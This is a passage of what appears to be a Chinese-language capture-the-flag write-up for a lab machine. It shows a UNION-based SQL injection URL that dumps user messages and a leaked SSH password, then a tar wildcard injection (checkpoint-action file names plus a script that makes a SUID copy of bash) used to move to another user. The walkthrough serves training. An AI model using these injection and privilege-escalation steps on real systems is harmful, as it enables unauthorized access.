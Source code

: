     http://10.10.215.254/admin?user=-1 union select group_concat(id,user_from,' || ',user_to,' || ',message_content,' || ',is_read,' || '),2,3,4 from messages

:

    11 || 3 || Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_EN*******Av3zJ

回到users表查看id：

    http://10.10.215.254/admin?user=-1 union select group_concat(id,'||',username, '||'),2,3,4 from users

说明这是jake的密码

ssh直接登录：

    jake@the-marketplace:~$ id
    uid=1000(jake) gid=1000(jake) groups=1000(jake)
    jake@the-marketplace:~$ cat ./user.txt

sudo -l发现：

    User jake may run the following commands on the-marketplace:
        (michael) NOPASSWD: /opt/backups/backup.sh

## tar通配符注入 - 横向移动

    jake@the-marketplace:~$ ls -la /opt/backups/backup.sh
    -rwxr-xr-x 1 michael michael 73 Aug 23  2020 /opt/backups/backup.sh
    jake@the-marketplace:~$ cat /opt/backups/backup.sh
    #!/bin/bash
    echo "Backing up files...";
    tar cf /opt/backups/backup.tar *

又是tar，不解释，直接操作:

    jake@the-marketplace:~$ echo "" > "--checkpoint=1"
    jake@the-marketplace:~$ echo "" > "--checkpoint-action=exec=sh hack.sh"
    jake@the-marketplace:~$ echo "cp /bin/bash /tmp/bash;chmod +s /tmp/bash" > ./hack.sh

sudo执行该脚本：

    jake@the-marketplace:~$ sudo -u michael /opt/backups/backup.sh
    Backing up files...
    tar: /opt/backups/backup.tar: Cannot open: Permission denied
    tar: Error is not recoverable: exiting now
    jake@the-marketplace:~$ ls -la /opt/backups/backup.tar
    -rw-rw-r-- 1 jake jake 10240 Jan 15 05:14 /opt/backups/backup.tar

执行该脚本发现backup.tar无权访问，但是jake是所有者，我们可以修改权限

    chmod 777 /opt/backups/backup.tar

再次执行，报错user.txt也无权，使用同样的方法修改权限再次运行即可：

    chmod 777 ./user.txt 

    jake@the-marketplace:~$ sudo -u michael /opt/backups/backup.sh
    Backing up files...
